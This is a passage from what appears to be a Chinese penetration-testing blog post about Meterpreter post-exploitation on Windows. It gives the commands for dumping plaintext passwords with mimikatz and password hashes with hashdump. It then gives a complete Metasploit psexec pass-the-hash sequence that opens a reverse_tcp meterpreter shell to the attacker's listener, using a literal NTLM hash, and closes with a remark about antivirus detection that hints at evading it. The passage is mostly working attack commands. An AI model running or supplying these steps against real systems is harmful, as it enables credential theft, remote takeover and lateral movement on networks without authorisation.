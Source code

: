 ```
load mimikatz
kerberos
```

![][15]

这是明文密码，一般实战中不容易获取，实战中更容易获取到的是`hash值`

```
hashdump
```

![][16]

获取到`hash`值后我们可以直接使用`hash`值登录目标主机

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set RHOST 192.168.1.11
set LPORT 2222
set SMBPass aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
set SMBUser administrator
exploit
```

![][17]

这里实测调用`powershell`会被 360 查杀

通过以上的例子，可以看出在实际的渗透测试中，即使获得了会话

各种杀毒软件也会乐此不疲地查杀各种利用模块

因此，我们必须学会在夹缝中生存。

参考文章：

- [Meterpreter 提权那些事][18]

[1]: https://mp.weixin.qq.com/s/XmSRgRUftMV3nmD1Gk0mvA
[2]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_172905.png
[3]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200130_215735.png
[4]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[5]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_102226.png
[6]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[7]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_181113.png
[8]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142213.png
[9]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142234.png
[10]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142256.png
[11]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_133916.png
[12]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134322.png
[13]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134801.png
[14]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134839.png
[15]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_135341.png
[16]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164139.png
[17]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164524.png
[18]: https://mp.weixin.qq.com/s/QXOmGCL8f2ISWAlYQ0mqPA
